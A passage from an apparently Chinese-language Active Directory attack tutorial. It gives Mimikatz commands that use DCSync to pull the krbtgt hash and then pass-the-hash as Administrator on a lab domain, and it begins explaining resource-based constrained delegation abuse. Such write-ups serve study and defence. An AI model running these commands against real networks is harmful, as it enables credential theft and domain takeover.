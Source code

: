 [![](assets/1705982146-f3a2018a17419bfeec9b269b6a485dbc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223145-a31c68bc-b7a0-1.png)  
Step 5:利用 DCSync 读取 krbtgt 的 HASH

```plain
lsadump::dcsync /user:krbtgt /domain:hacke.testlab
```

Step 6:通过 dcsync 读取 hacke\\Administrator 的 HASH 进行 PTH

```plain
privilege::debug
sekurlsa::pth /user:Administrator /domain:hacke.testlab /ntlm:9492fbc31a047a42a454f0e1701103dc /run:cmd.exe
```

PS：以上 Step 5、6 为后续补充的，所以没有截图，同时 Step 5、6 可以用作横向移动~

### 资源约束性委派攻击

#### 基本介绍

该攻击由国外安全研究员 Elad Shami 提出，他在文章中指出无论服务账号的 UserAccountControl 属性是否被设置为 TrustedToAuthForDelegation 值，服务自身都可以通过调用 S4U2Self 来为任意用户请求自身的服务票据，但是当没有设置该属性时，KDC 通过检查服务账号的 TrustedToAuthForDelegation 位和 msDS-AllowedToDelegateTo 这两个字段，发现没有被赋值时，服务自身通过 S4U2Self 请求到的 ST 服务票据是不可转发的，因此不可转发的 ST 服务票据是无法通过 S4U2Proxy 转发到其他服务进行约束性委派认证的，但是在基于资源的约束委派过程中，不可转发的 ST 服务票据仍然可以通过 S4U2Proxy 转发到其他服务进行委派认证，并且最后服务还会返回一张可转发的 ST 服务票据，因此，如果我们能够在服务 B 上配置允许服务 A 的基于资源的约束委派，那么我们就可以通过控制服务 A 使用 S4U2Self 向域控请求任意用户访问自身的服务票据，最后再使用 S4U2Proxy 转发此 ST 票据去请求访问服务 B 的可转发的 ST 服务票据，那么我们就可以模拟任意用户访问服务 B 了，这里我们可以以普通域用户的身份去创建机器账号作为服务 A。  
引用博客文章中的一张图说明该攻击步骤：  